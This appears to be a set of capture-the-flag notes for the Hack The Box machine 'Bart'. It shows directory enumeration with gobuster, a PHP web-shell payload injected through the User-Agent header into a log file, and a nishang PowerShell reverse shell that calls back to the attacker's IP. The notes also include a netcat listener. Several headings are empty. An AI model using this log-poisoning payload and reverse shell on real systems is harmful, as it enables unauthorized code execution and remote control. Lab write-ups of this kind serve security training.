

# 25 - Internal-01

# Index


# Post request


# Password brute force with a simple wordlist


If needed we can use burp as a proxy for troubleshooting


# Dev Chat


# XSS doesn't work



# Gobuster against http://internal-01.bart.htb
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart]
└─$ gobuster dir -u  http://internal-01.bart.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x ".php" -o gobuster/internal.log
/index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/log/]
/sql                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/sql/]
```


# log.php


log.php logs our user agent, we can try to inject php into log.php


# User Agent injection
```bash
GET /log/log.php?filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=fhq7egg6e1hbqs8luj4gak3mll
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```


# Code execution with cmd=whoami in the URL


# Copy the reverse shell 
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart/www]
└─$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
```


# Add this code to the last line
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444


# Run netcat on port 4444 for the reverse shell and  python on port 80 for the upload

```
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart/www]
└─$ nc -lvp 4444
```

# Download and execute the reverse shell


# We got a shell


